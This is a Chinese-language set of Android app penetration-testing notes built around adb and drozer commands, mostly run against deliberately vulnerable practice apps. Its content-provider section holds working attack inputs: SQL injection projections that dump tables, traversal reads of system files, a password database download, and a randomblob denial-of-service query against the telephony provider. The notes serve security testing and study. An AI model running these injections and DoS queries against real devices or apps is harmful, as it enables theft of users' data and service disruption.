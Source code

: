 # App渗透测试记录 

### 1. 常用命令  

1. 获取已安装应用的包名  

 		adb shell pm list packages  
 
2. 获取包名对应的APK路径
 
 		adb shell pm path com.vivo.sdkplugin 
3. 把APK pull到本地  

 		adb pull /data/app/com.vivo.sdkplugin-zvXOuWJKeKVhhESsKWxOxg==/base.apk abc.apk
4. aapt获取APK包的信息 
 
 		aapt dump badging apk_path  

5. 获取应用的信息  

 		adb shell dumpsys package <package_name>  

6. 获取当前运行的Activity   

		adb shell dumpsys activity | grep -i run   
 
7. 获取和用户正在交互的Activity  
 
 		adb shell dumpsys activity  | grep "mFoc"
 		

### 2. drozer使用  

1. adb forward tcp:31415 tcp:31415  
2. adb console connect  
3. run app.package.list 
4. run app.package.list -f sieve 
5. run app.package.info -a com.mwr.example.sieve  
6. 检查攻击面：  
 
 		run app.package.attacksurface com.mwr.example.sieve  
 
#### 1. Activity测试  
1. 查看activity信息：  

 		run app.activity.info -a com.mwr.example.sieve

2. 启动activity信息：  
	1. Activity通常就是一个单独的屏幕，可以显示一些控件也可以监听并处理用户的的事件最初响应；   
 	2. Activity之间通过Intent进行通信，最重要的部分：动作和动作对应的数据  
 	3. 越权访问问题  

			run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.PWList  
	4. 翻译编译代码，确定activity需要传递的参数，启动activity：  
			
			run app.activity.start --component com.example.pacakge com.example.activity --extra string package strvalue --extra string appid appidvalue    


#### 2. Provider测试  
1. 查看content provider信息  

 		run app.provider.info -a com.mwr.example.sieve  

2. 查找可以访问的content provider的URI  
	1. 最好需要打开应用程序，保证应用程序在运行  
	2. 数据泄露  

 			run scanner.provider.finduris -a com.mwr.example.sieve

 	3. 查询、修改数据：  
 		
 			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ –-vertical
 			
3. 进行SQL注入  

	1. SQLite数据库使用SQL语句，所以进行SQL注入，使用projection参数和selection参数可以传递一些简单点得SQL注入语句，获取到详细的报错信息：    
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   

  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
   
	2. 查询所有数据库表：  
  
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE TYPE='table';-- "   
  
 	3. 列出数据库内容：
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;-- "   
    
4. 扫描注入：
 
  		run scanner.provider.injection -a APP
  
5. 从File Content Providers获取信息：    
 	1. File System-backed Content Provider提供了访问底层文件系统的方法，Android沙盒会阻止App共享文件允许，而File System-backed Content Provider允许App共享文件。 
 	2. 对于sieve来说，我们可以推测出的FileBackupProvider就是一个file system-backed content provider。 我们可以使用drozer的app.provider.read模块查看某个文件：
  
  			run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts  
6. 文件下载：
 
  		run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db  

7. 检查是否存在遍历文件漏洞
 
  		run scanner.provider.traversal -a com.mwr.example.sieve   
 
8. 本地拒绝服务测试  
	
		run app.provider.query content://telephony/siminfo/ --selection "_id=LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))"
	
 
#### 3. Broadcast测试：  
	
BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。   

1. 查看暴露的广播组件信息：
 
  		run app.broadcast.info -a com.package.name  
 
    
2.  发送信息：
 
  		run app.broadcast.send --component packagename receivername --action android.intent.action.XXX

    
3.  空action：
 
  		run app.broadcast.send --component packagename ReceiverName
  
4. 空extras:
 
  		run app.broadcast.send --action android.intent.action.XXX

#### 4. service测试：  

1. 获取service：
  
  		run app.service.info -a com.mwr.example.sieve
  
2. 向某个服务发送信息：
 
  		run app.service.send com.mwr.example.sieve com.mwr.example.sieve.CryptoService –msg 1 5 3
3. 启动service：
 
  		run app.service.start --action org.owasp.goatdroid.fourgoats.services.LocationService --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService
  
4. 使用命令：  
  
  		run app.service.send <package name> <component name> --msg <what> <arg1> <arg2> --extra <type> <key> <value> --bundle-as-obj
  		
 